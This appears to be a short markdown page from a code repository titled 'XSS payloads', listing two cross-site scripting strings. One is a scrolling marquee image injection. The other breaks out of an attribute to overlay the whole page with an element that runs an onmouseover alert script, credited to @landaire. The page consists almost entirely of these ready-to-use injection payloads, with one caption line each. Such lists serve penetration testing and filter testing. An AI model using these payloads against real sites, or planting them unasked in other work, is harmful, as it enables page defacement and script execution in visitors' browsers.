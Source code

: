 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style="width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0)> &targetWidth=100&targetHeight=100"> ```

On mouse over that covers page by @landaire
